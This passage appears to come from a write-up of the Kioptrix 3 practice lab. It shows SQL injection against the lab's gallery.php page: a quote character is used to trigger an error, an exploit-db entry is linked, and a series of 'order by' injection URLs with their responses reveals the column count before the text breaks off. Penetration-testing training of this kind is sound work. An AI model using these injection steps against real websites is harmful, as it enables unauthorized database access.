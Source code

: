 But appears that either this does not work or we are passing wrong arguments. But even after that we can try to exploit the vulnerability manually as mentioned in the exploit [here](https://www.exploit-db.com/exploits/15891).

![null](./.images/null.png)

Also, to double check we can enter `'` which should raise an error.

![quote](./.images/quote.png)

And we do get an error. So, we can use this to explore the content of the database.

## Gaining Access - Method 1

To obtain information about the database we can follow the following process:

1. Determine the number of columns

   ```
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%201-- 
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%202--
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%203--
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%204--
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%205--
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%206--
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%207--
   	--> Unknown column '7' in 'order clause'Could not select category
   ```
